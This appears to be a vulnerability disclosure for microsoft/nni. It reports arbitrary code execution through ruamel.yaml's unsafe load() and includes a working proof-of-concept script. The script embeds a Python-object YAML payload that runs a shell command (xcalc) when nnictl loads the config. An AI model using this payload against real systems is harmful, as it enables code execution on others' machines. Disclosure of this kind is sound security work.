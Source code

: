 # Description
**Arbitrary Code Excecution** in microsoft/nni.
An open source AutoML toolkit for automate machine learning lifecycle, including feature engineering, neural architecture search, model compression and hyper-parameter tuning.
# Technical Description
This package was vulnerable to Arbitrary code execution due to a use of a known vulnerable function **load()** in **ruamel.yaml**
# Exploit code
**Python File**
```python
import os 

os.system('pip3 install nni')
exploit = """authorName: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
experimentName: example_mnist_pytorch
trialConcurrency: 1
maxExecDuration: 1h
maxTrialNum: 10
#choice: local, remote, pai
trainingServicePlatform: local
searchSpacePath: search_space.json
#choice: true, false
useAnnotation: false
tuner:
  #choice: TPE, Random, Anneal, Evolution, BatchTuner, MetisTuner, GPTuner
  #SMAC (SMAC should be installed through nnictl)
  builtinTunerName: TPE
  classArgs:
    #choice: maximize, minimize
    optimize_mode: maximize
trial:
  command: python3 mnist.py
  codeDir: .
  gpuNum: 0
"""
open('exploit.yml','w+').write(exploit)
os.system('nnictl create --config exploit.yml')
os.system('rm exploit.yml')
```
# POC
* Run the exploit code 

![](https://cdn.discordapp.com/attachments/749019614352244777/785677515892981800/Screenshot_from_2020-12-08_06-50-12.png)
![](https://cdn.discordapp.com/attachments/749019614352244777/785677507818160198/Screenshot_from_2020-12-08_06-50-19.png)

